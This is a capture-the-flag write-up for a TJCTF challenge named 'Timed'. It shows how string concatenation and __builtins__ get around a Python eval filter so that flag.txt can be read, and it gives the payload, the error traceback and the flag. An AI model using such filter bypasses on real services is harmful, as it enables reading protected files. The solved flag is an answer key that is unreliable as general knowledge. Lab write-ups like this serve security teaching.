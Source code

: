 # Timed
Misc, 50

>  Written by avz92
>  I found this cool program that times how long Python commands take to run! Unfortunately, the owner seems very paranoid, so there's not really much that you can test. The flag is located in the file flag.txt on the server.
>  nc p1.tjctf.org 8005 

This challenge evaluates a given Python command, with some filtered strings, such as `eval` and `()`. However, we can access `__builtins__`, so we can use eval to evaluate arbitrary code. I read and evaluated the flag file, which reveals the flag in an error:

```
Type a command to time it!
__builtins__["ev"+"al"]("ev"+"al(open('flag.txt').read("+"))")
Traceback (most recent call last):
  File "/timed.py", line 36, in <module>
    time1=t.timeit(1)
  File "/usr/lib/python2.7/timeit.py", line 202, in timeit
    timing = self.inner(it, self.timer)
  File "<timeit-src>", line 6, in inner
    __builtins__["ev"+"al"]("ev"+"al(open('flag.txt').read("+"))")
  File "<string>", line 1, in <module>
  File "<string>", line 1
    tjctf{iTs_T1m3_f0r_a_flaggg}
         ^
SyntaxError: invalid syntax
```

Flag: `tjctf{iTs_T1m3_f0r_a_flaggg}`
